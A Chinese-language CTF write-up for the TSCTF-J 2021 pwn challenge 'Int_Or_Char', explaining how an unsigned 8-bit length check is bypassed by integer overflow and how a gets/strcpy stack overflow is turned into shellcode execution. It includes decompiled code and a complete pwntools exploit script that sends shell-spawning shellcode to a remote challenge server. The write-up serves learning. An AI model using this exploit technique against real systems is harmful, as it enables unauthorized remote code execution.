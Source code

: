 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Int_Or_Char WriteUp
date: 2021-10-30
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 题目

### 初步确定思路

使用`checksec`查看一下文件，发现并没有开启NX和PIE，则初步考虑ret2text和ret2shellcode

![checksec](https://cdn.novanoir.moe/img/image-20211025175327904.png)

<!--truncate-->

### 分析代码

直接跳到`pwn()`函数开始看吧

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

注意到`gets(s)`并没有限定长度，可以考虑在这里栈溢出。

来到`check(v2, s)`函数

```c
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

这里要求我们的长度`a1 > 3 && a1 <= 8`，如果是这样的话我们很明显无法构造出我们想要的payload, 这里可以参考攻防世界的[Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)的writeups提到的**整数溢出漏洞**

> 一个通俗易懂的C语言例子
>
> 对于一个`2字节的unsigned short int型变量`，当它的数据长度超过2字节时，就会溢出，使用的数据也仅仅是最后两个字节
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257; //var1 = 0x
> if (var1 == var2)
> {
> printf("溢出");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> 	溢出
> ```

回到我们这题， 我们的`v2`是一个`unsigned __int8`的变量, 这意味着它的取值范围只有`0~255`那如果我们传入一个长度为*256*的数据，`v2`的值其实就变成了*1*(255 + 1), 这样一来，我们传入的长度可以到`(255+4)~(255+8)`也就是*259-263*个字符。

好的，绕过了字符长度检查，接下来又应该怎么利用这个漏洞呢？

```c
char *strcpy(char *dest, const char *src);
```

这是`strcpy`的原型, 也就是说, `src`的内容会拷贝到`dest`所在的地址上，也就是题目中的`passwd_buf`处

![passwd_buf地址](https://cdn.novanoir.moe/img/image-20211025194709773.png)

我们来看一下栈堆

![stack of check](https://cdn.novanoir.moe/img/image-20211025192814285.png)

这里我贴上Mark大爹的讲解：

![性感Mark在线教学](https://cdn.novanoir.moe/img/image-20211025192651649.png)

> 理解较浅，原因什么的按下不表，等我去把Pwn入门了把栈整明白了再说（）

前面提到，因为NX没开，所以我们的buf是**可执行**的，这也给了我们使用`shellcode`的条件，而且我们并没有调用系统指令的函数存在，因此必须糙一个shellcode出来

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # 指定了目标是32位系统, 下文

shellcode = asm(shellcraft.sh()) # 生成shellcode
buf_addr = 0x804A060 # buf地址
# print(shellcode)

payloadd = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # 我们先把shellcode左对齐到栈底，再加上4字节的数据干掉rbp, 再加上p32(buf_addr) 即可跳转到buf_addr执行，也就是我们的shellcode
payloadd = payloadd + b'A'*(262-len(payloadd)) # 补齐payload以实现整数溢出漏洞
# print(len(payloadd))
# print(payloadd)
p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payloadd)
p.interactive()
# 此时已经拿到了shell, 该干什么就不用多说了8

```

> 在本WriteUp编写之前服务器已经shutdown了，所以没有获得shell之后的过程啦

### 个人总结

虽然在做这题的时候虽然整数溢出这个很快就实现了，如何运行shellcode却卡了很久（原因就是到达了栈底之后还要覆盖掉rbp才能跳转，在这之前我完全不理解为什么）

Pwn真是太有意思辣

## 参考资料

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark大爹
